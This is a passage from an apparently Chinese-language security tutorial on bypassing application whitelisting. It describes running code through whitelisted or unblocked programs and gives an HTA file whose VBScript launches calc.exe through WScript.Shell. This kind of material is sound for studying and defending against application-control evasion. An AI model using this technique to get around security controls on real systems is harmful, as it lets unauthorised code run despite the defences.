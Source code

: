 ![p11](http://drops.javaweb.org/uploads/images/69bb523c0f3a8b5e177de7524f0a6497ed92cd03.jpg)

0x03 代码执行漏洞
===========

* * *

### 1.难题

无法执行自己的程序

### 2.分析

根据白名单系统的特点，绕过的思路如下：

1.  找到系统中的特定白名单程序
    
    利用该程序执行代码
    
    编写代码使其执行我们自己的程序
    
2.  找到系统中未被拦截的特定程序
    
    利用该程序执行代码
    
    编写代码使其执行我们自己的程序
    

0x04 绕过方法
=========

* * *

最终我们还是做到了：D

### 1.执行vbs

利用hta文件

> Tips：
> 
> hta是HTML Applications的缩写，是利用HTML和Dynamic HTML(DHTML)开发应用程序

利用如下代码即可通过hta执行vbs

```
<HTML> 
<HEAD> 
<script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "calc.exe"
</script>
</HEAD> 
<BODY> 
</BODY> 
</HTML> 

```
